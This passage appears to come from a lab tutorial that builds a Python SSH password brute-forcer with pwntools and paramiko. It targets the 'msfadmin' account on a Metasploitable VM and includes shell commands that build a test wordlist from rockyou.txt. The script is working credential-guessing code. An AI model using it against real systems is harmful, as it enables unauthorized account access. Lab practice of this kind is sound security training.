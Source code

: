 The complete version of the script is below:

```python
from pwn import *
import paramiko

host = "192.168.7.94"
username = "msfadmin"
attempts = 0

with open("passwords.txt", "r") as password_list:
	for password in password_list:
		password = password.strip("\n")
		try:
			print("[{}] Attempting password: '{}'!".format(attempts, password))
			response = ssh(host=host, user=username, password=password, timeout=1)
			if response.connected():
				print("[>] Valid password found: '{}'!".format(password))
				response.close()
				break
			response.close()
		except paramiko.ssh_exception.AuthenticationException:
			print("[X] Invalid password!")
		attempts += 1
```

This is the completed program configured for the user "msfadmin" on the Metasploitable VM. The output should show each password attempted one by one, and a success or fail message for each.  We will now test to see if there are any unexpected logic or syntax errors.

### Testing v1.0

First, we will need to make a wordlist to use as a test, "passwords.txt" was used in the code. Generating a sample list:

  ```shell
  touch passwords.txt
  tail /usr/share/wordlists/rockyou.txt > passwords.txt
  echo "msfadmin" >> passwords.txt
  ```



> Objectives: Be sure to have the same name for the wordlist file and the one in the code. This will ensure the program runs correctly.
{: .prompt-warning }


Verify the file was created and populated:

![Screenshot](picture8.png)

With the list, we can now attempt to brute force SSH on the Metasploitable VM.

![Screenshot](picture9.png)


[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)